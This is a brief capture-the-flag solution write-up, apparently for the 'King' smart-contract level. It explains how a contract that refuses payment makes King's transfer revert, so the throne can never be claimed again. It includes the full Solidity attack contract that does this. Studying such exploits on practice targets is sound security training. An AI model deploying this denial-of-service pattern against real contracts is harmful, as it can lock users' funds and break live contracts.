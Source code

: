 # King

The `transfer` function will revert if the transaction fails. We can use this to break the King contract by crafting a smart contract that does not accept payments through typical means. Since the King contract reverts before assigning a new king, a new king will never be crowned (mwahaha).

```javascript
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract SoSelfless {

    constructor(address payable _instance) payable {
        _instance.call{value: msg.value}("");
    }
}
```